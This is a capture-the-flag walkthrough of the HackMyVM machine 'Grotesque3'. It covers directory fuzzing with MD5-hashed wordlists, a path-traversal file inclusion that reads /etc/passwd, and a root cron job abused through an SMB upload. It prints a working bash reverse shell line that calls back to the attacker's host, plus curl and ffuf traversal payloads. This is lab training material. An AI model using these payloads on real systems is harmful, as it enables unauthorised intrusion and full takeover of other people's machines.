


# Grotesque3.
Linux VMTested on VirtualBox created by || tasiyanci
⏲️ Release Date // 2021-07-12

✔️ MD5 // 5cf2368f990ac745ddb078e996f8b402

☠ Root // 24

💀 User // 27

# Network Discovery 
```bash
┌──(kali💀kali)-[~/Documents/CTF/hackmyvm/grotesque3]
└─$ fping -ag 192.168.1.1/24 2>/dev/null
192.168.1.1
192.168.1.2
192.168.1.102
192.168.1.107
192.168.1.100
```
> 192.168.1.02 is my ctf ip .


# Nmap 

```bash
┌──(kali💀kali)-[~/Documents/CTF/hackmyvm/grotesque3]
└─$ nmap -sC -sV -p- 192.168.1.102
Nmap scan report for grotesque3.hmv (192.168.1.102)
Host is up (0.0011s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 6a:fe:d6:17:23:cb:90:79:2b:b1:2d:37:53:97:46:58 (RSA)
|   256 5b:c4:68:d1:89:59:d7:48:b0:96:f3:11:87:1c:08:ac (ECDSA)
|_  256 61:39:66:88:1d:8f:f1:d0:40:61:1e:99:c5:1a:1f:f4 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```
# Atlas image 


```
There is a suspicous map thing on image  a 'm' a 'd' and 5 'X'
for sure its point to md5 .
now we should make custom directory list convered to md5
```
# Custom wordlist 

```bash
┌──(kali💀kali)-[~/Documents/CTF/hackmyvm/grotesque3]
└─$ for word in $(cat /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt ) ; do echo  $word | md5sum ; done >> md5.txt
```

# Gobuster 


```bash
┌──(kali💀kali)-[~/Documents/CTF/hackmyvm/grotesque3]
└─$ gobuster dir -w md5.txt   -u http://192.168.1.102/ -x php,txt,html,bak,jpg,jpeg,png,bck,py
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.1.102/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                md5.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              jpeg,png,bck,py,php,txt,html,bak,jpg
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/f66b22bf020334b04c7d0d3eb5010391.php (Status: 200) [Size: 0]
Progress: 743222 / 1722010 (43.16%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 745496 / 1722010 (43.29%)
===============================================================
Finished
===============================================================
```
```
Here we got a php file ...
probably it gonna be a lfi vuln or something like that ...
we can use ffuf to find the vulnerable parametr.
```
# Ffuf - finding the param 

```bash
┌──(kali💀kali)-[~/Documents/CTF/hackmyvm/grotesque3]
└─$ ffuf -c -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u 'http://192.168.1.102/f66b22bf020334b04c7d0d3eb5010391.php?FUZZ=../../../../../../../../../../../etc/passwd'  -fs 0 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.1.102/f66b22bf020334b04c7d0d3eb5010391.php?FUZZ=../../../../../../../../../../../etc/passwd
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 0
________________________________________________

purpose                 [Status: 200, Size: 1457, Words: 14, Lines: 28, Duration: 6ms]
```
> Purpose

# Passwd - gained with purpose param

```bash
┌──(kali💀kali)-[~/Documents/CTF/hackmyvm/grotesque3]
└─$ curl 'http://192.168.1.102/f66b22bf020334b04c7d0d3eb5010391.php?purpose=../../../../../../../../../../../etc/passwd'  
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
freddie:x:1000:1000:freddie,,,:/home/freddie:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
mysql:x:106:112:MySQL Server,,,:/nonexistent:/bin/false

```

# Freddie or www-data  doesnt matter

```
I used a php filter chain genetator to achive shell
```



```
Now we make a listener and put this string and call 'X' to get shell 
```



# Stabalize the shell

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@grotesque:/var/www/html$ export TERM=xterm
export TERM=xterm
www-data@grotesque:/var/www/html$  # here press CTRL and Z  
kali@kali : stty raw -echo;fg
                            reset
```

```
there is not much things to query
so we can run pspy64 to find a ittresting 
running file on machine 
```

# PSPY64
> https://github.com/DominicBreuker/pspy

```bash
2024/05/31 08:33:00 CMD: UID=0     PID=6      | 
2024/05/31 08:33:00 CMD: UID=0     PID=4      | 
2024/05/31 08:33:00 CMD: UID=0     PID=3      | 
2024/05/31 08:33:00 CMD: UID=0     PID=2      | 
2024/05/31 08:33:00 CMD: UID=0     PID=1      | /sbin/init 
2024/05/31 08:33:01 CMD: UID=0     PID=3096   | /usr/sbin/CRON -f 
2024/05/31 08:33:01 CMD: UID=0     PID=3097   | /usr/sbin/CRON -f 
2024/05/31 08:33:01 CMD: UID=0     PID=3098   | /bin/sh -c bash /smbshare/* 
2024/05/31 08:33:01 CMD: UID=0     PID=3099   | bash /smbshare/rs.sh
```

```
uid 0 = root run files /smbshare 
so if put a shell in this dir we can get shell 
buy normally we cant cuz  lack of access
so can upload file with smbclient 
```
# Road to ROOT

## lets make a shell to give us a shell

```
www-data@grotesque:/tmp$ echo 'sh -i >& /dev/tcp/192.168.1.107/1234 0>&1' > shell.sh
```

# Smbclient 

```bash
www-data@grotesque:/tmp$ smbclient -L 127.0.0.1
Unable to initialize messaging context
Enter WORKGROUP\GUEST's password: 

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	grotesque       Disk      grotesque
	IPC$            IPC       IPC Service (Samba 4.9.5-Debian)
Reconnecting with SMB1 for workgroup listing.

	Server               Comment
	---------            -------

	Workgroup            Master
	---------            -------
	WORKGROUP            GROTESQUE
```
```
lets see if we can login to grotesque share 
```

```bash
Unable to initialize messaging context
Enter WORKGROUP\GUEST's password: 
Try "help" to get a list of possible commands.
smb: \>
```
```
SMBCLIENT has a command named 'put' that we can tranfer local file to smb
so when we  transfer it  , it goona copy to /smbshare 
that root gonna give us a shell

smbclient --------shell------> /smbshare
Root ------execute everting on /sbmshare ----> ROOTSHELL
```
# transfer
```bash
smb: \> put shell.sh
putting file shell.sh as \shell.sh (41.0 kb/s) (average 41.0 kb/s)

www-data@grotesque:/smbshare$ ls -al /smbshare/shell.sh 
-rwxr--r-- 1 root root 42 May 31 08:42 /smbshare/shell.sh
```
```
open a listener on the port u navigate on the shell then it will give the shell of root user 
```

```bash
┌──(kali💀kali)-[~/Documents/TOOLS/php_filter_chain_generator]
└─$ nc -nlvp 1234                 
listening on [any] 1234 ...
id
connect to [192.168.1.107] from (UNKNOWN) [192.168.1.102] 36758
sh: 0: can't access tty; job control turned off
# uid=0(root) gid=0(root) groups=0(root)
```


